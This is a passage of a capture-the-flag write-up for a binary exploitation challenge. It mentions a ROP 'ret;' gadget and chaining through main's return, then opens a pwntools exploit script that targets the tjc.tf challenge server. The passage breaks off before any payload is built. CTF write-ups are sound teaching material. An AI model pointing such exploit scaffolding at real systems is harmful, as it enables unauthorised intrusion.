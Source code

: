 <figure><img src="../../../.gitbook/assets/image_2023-05-28_220301836.png" alt="" width="458"><figcaption><p>ropper ret; gadget</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image_2023-05-28_220225357.png" alt="" width="563"><figcaption><p>disassembled main</p></figcaption></figure>

In the end I decided to utilise the return instruction in `main` to chain the ROP payload.

{% code title="exploit.py" lineNumbers="true" fullWidth="false" %}
```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './out'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
host = 'tjc.tf'
port = 31080

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(host, port, *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
break *main
```